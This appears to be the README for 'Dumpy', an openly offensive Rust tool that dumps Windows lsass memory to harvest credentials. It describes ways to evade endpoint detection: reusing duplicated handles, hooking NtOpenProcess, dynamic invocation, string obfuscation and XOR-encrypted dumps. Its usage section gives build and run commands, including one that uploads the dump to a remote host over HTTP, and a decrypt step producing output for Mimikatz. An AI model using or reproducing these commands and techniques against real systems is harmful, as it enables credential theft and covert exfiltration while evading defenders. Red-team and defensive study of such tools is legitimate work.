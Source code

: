 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk.

Support added for both x86 and x64.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	cargo build
	dumpy.exe -h

# Usage

	USAGE:
    dumpy.exe [OPTIONS] <ACTION>

	ARGS:
	    <ACTION>    dump or decrypt

	OPTIONS:
	    -h, --help                         Print help information
	    -i, --input-file <INPUT_FILE>      Encrypted input file [default: c:\temp\input.txt]
	    -k, --key <KEY>                    Encryption key [default: 1234abcd]
	    -o, --output-file <OUTPUT_FILE>    Destination path [default: c:\temp\output.txt]
	    -u, --upload <UPLOAD>              URL where the dump should be uploaded [default:
	                                       http://remotehost/upload]
Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass content. By default, it will store the result in a xored text file with a random name in the current directory. The option upload allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports multipart/form-data requests will work.
	dympy.exe dump -k secretKey -u http://remotehost/upload

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, it is required to perform a base64 decoding before this decryption process.
	dumpy.exe decrypt -i xored.txt -o decrypted.txt -k secretKey
